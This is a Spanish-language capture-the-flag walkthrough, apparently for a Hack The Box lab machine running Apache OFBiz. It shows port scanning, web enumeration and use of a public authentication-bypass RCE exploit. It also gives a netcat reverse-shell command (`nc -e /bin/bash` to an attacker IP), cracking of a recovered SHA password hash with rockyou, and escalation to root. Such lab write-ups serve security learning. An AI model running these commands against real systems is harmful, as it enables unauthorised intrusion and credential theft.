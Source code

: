 ## Etapa de Escaneo: 
primero hacemos un `nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.252 -oG allPorts`
![[Pasted image 20240131220826.png]]
podemos ver que los puertos 22/80/443/41843. 
ahora podemos ver los datos de los servicios y los scripts: 
![[Pasted image 20240131221639.png]]
![[Pasted image 20240131221658.png]]
podemos ver que tiene un vhost que sería bizness.htb, ahora podemos hacer un whatweb para saber que hay en la pagina: 
![[Pasted image 20240131222542.png]]
podemos ver que tiene un Vhost por lo que podemos poner la ip con el host de la pagina para que cargue bien los elementos de la pagina: 
![[Pasted image 20240202115626.png]]
si se intenta hace un reconocimiento de las paginas con gobuster, pasará que la pagina no se puede analizar por que no tiene un ssl, y muestra el siguiente error: 
![[Pasted image 20240202120610.png]]
pero si hacemos un dirb, podemos ver que tenemos los siguientes directorios dentro de la web
![[Pasted image 20240202131123.png]]
si entramos a accounting, podemos ver la pagina del login del usuario:![[Pasted image 20240202131214.png]]
Podemos ver es que el login tiene el nombre de apache ofbiz y que el releace es el 18.120, 
si buscamos algún exploit para este tipo de servicio podemos encontrar que hay un github que tiene 2 scripts para hacer un rce:
(https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass)
![[Pasted image 20240202222226.png]]
si hacemos un cat al archivo README.md podemos ver el uso de este en este caso ocupamod el Run command on the remote server, lo cual nos ponemos en escucha en el puerto 443 con netcat `nc -nlvp 443`: 
![[Pasted image 20240202222455.png]]
Luego de ponernos en escucha podemos correr el script de python en donde lanzaremos una bash a traves de netcat de la siguiente forma `nc -e /bin/bash 10.10.14.214 443`: 
![[Pasted image 20240202222437.png]]
y obtenemos acceso a la maquina como el usuario ofbiz.
![[Pasted image 20240202223905.png]]
la enumerar la maquina podemos encontrar lo siguiente en la ruta /opt/ofbiz/runtime/data/ofbiz/seg0 encontramos la clave hacheada en sha que es esta `$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I`:
![[Pasted image 20240202225330.png]]
una ves encontrado este hash ocupamos un script para desencriptar la contraseña: 
![[Pasted image 20240202232750.png]]
por lo tanto este script nos compara el hash con rockyou para poder encontrar la contraseña:
![[Pasted image 20240202232241.png]]
si hacemos un su root podemos acceder al super usuario gracias a la contraseña encontrada. 
![[Pasted image 20240202232618.png]]
